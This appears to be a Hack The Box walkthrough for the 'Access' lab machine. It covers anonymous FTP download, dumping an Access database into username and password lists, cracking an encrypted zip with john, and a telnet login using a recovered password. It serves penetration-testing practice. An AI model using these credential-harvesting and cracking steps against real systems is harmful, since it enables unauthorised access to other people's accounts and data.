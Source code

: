 # 10 - FTP


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98]
└──╼ $ wget -m --no-passive ftp://10.10.10.98
--2021-08-06 12:46:26--  ftp://10.10.10.98/
           => ‘10.10.10.98/.listing’                                                           
Connecting to 10.10.10.98:21... connected.                                                     
Logging in as anonymous ... Logged in!
...
...
FINISHED --2021-08-06 12:46:35--
Total wall clock time: 8.6s
Downloaded: 5 files, 5.4M in 7.2s (771 KB/s)
```

--no-passive-mode is needed because the client cannot connect to the server on another port. This is how ftp works, ftp opens additional TCP connections on dynamic ports. Ftp operates in two modes for file transfers

In active mode, the client opens a TCP port and tells the server to connect to it.
In passive mode, the server opens the port and and the client connects to it.

```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp]
└──╼ $ wget -m ftp://10.10.10.98
--2021-08-06 12:44:44--  ftp://10.10.10.98/
           => ‘10.10.10.98/.listing’
Connecting to 10.10.10.98:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... couldn't connect to 0.0.0.0 port 49168: Connection refused
```
Either there is a firewall not allowing the client to connect to port 49168 or ftp server couldn't open the port in the first place.



# Files
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98]
└──╼ $ find . -type f -ls -exec file {} \;
   247192      4 -rw-r--r--   1 user     user           97 Aug  6 12:46 ./.listing
./.listing: ASCII text, with CRLF line terminators
   247194      4 -rw-r--r--   1 user     user           51 Aug  6 12:46 ./Backups/.listing
./Backups/.listing: ASCII text, with CRLF line terminators
   247195   5520 -rw-r--r--   1 user     user      5652480 Aug 23  2018 ./Backups/backup.mdb
./Backups/backup.mdb: Microsoft Access Database
   247198      4 -rw-r--r--   1 user     user           59 Aug  6 12:46 ./Engineer/.listing
./Engineer/.listing: ASCII text, with CRLF line terminators
   247199     12 -rw-r--r--   1 user     user        10870 Aug 24  2018 ./Engineer/Access\ Control.zip
./Engineer/Access Control.zip: Zip archive data, at least v2.0 to extract
```

# File is encrypted
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ unzip Access\ Control.zip 
Archive:  Access Control.zip
   skipping: Access Control.pst      unsupported compression method 99
```

Compression method 99 refers to AES encryption which is unsupported by unzip. 7z can decrypt and unzip it but we still need the key.

# backup.mdb


```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $ cat shell.sh 
#!/bin/bash
for i in $(mdb-tables backup.mdb -1);
do
  if [[ $(mdb-json backup.mdb $i) ]]; then 
    echo ------ [ $i ] ------
    mdb-json backup.mdb $i | jq
  fi;
done
```
This is a very simple script to dump the whole database


# Generating username and password lists
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-schema backup.mdb  | grep -i 'create table ' | awk -F'[' '{print $2}' | sed 's/]//' > tables
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb USERINFO |jq| grep "name\|lastname" > user.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb USERINFO |jq | grep -i password | awk -F"\"" '{print $4}' > pass.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $mdb-json backup.mdb auth_user |jq | grep -i password |awk -F"\"" '{print $4}' | sort -u  >> pass.lst
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Backups]
└──╼ $ mdb-json backup.mdb auth_user |jq | grep -i username |awk -F"\"" '{print $4}' >> user.lst

```


# user.lst
```sql
John_Carter
J.Carter
John.Carter
JCarter
Mark_Smith
M.Smith
Mark.Smith
MSmith
Sunita_Rahman
S.Rahman
Sunita.Rahman
SRahman
Mary_Jones
M.Jones
Mary.Jones
MJones
Monica_Nunes
M.Nunes
Monica.Nunes
MNunes
backup_admin
admin
engineer
```


# pass.lst

```sql
020481
010101
000000
666666
123321
123321
access4u@security
admin
```



# Zip cracked
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ john hash -w=../Backups/pass.lst
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 7 candidates left, minimum 16 needed for performance.
access4u@security (Access Control.zip/Access Control.pst)
1g 0:00:00:00 DONE (2021-08-06 16:21) 50.00g/s 350.0p/s 350.0c/s 350.0C/s 020481..admin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


# Outlook folder
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ 7z x Access\ Control.zip 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_GB.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD Ryzen 3 3100 4-Core Processor               (870F10),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed): access4u@security
Everything is Ok         

Size:       271360
Compressed: 10870

┌─[user@parrot]─[10.10.14.18]─[~/htb/access/ftp/10.10.10.98/Engineer]
└──╼ $ file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```

# Security's password

![](vx_images/1586634776600.png)


# Telnet


```
┌─[user@parrot]─[10.10.14.18]─[~/htb/access]
└──╼ $ telnet  10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password:  4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>
```